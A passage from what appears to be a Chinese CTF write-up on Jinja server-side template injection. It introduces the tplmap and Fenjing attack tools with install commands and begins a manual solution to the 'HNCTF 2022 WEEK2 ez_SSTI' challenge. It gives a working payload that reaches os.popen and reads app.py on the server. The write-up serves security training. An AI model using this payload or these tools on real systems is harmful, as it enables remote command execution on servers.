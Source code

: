 ### 工具辅助

#### 1. tplmap

*我是安装在kail上了，采用的是python2环境*

**官网：**  https://github.com/epinna/tplmap 

**具体安装讲解可以看这篇文章：** https://www.cnblogs.com/ktsm/p/15691652.html



#### 2. Fenjing（焚靖）

![img](https://gitee.com/bx33661/image/raw/master/path/fenjing.webp)



> 官方网站： https://github.com/Marven11/Fenjing?tab=readme-ov-file
>
> 焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口，省去手动测试接口，fuzz题目WAF的时间。

1. Python-pipx安装

```
# 首先使用apt/dnf/pip/...安装pipx
#pip install pipx
# 然后用pipx自动创建独立的虚拟环境并进行安装
pipx install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

2. docker安装

```
docker run --net host -it marven11/fenjing webui
```

进入工具

![image-20240831123007941](https://gitee.com/bx33661/image/raw/master/path/image-20240831123007941.png)



----

### 题目实战

#### NSSCTF--[HNCTF 2022 WEEK2]ez_SSTI

1. 手工

Payload:

```
?name={{config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20app.py%27).read()}}
```

我看了一下`app.py`
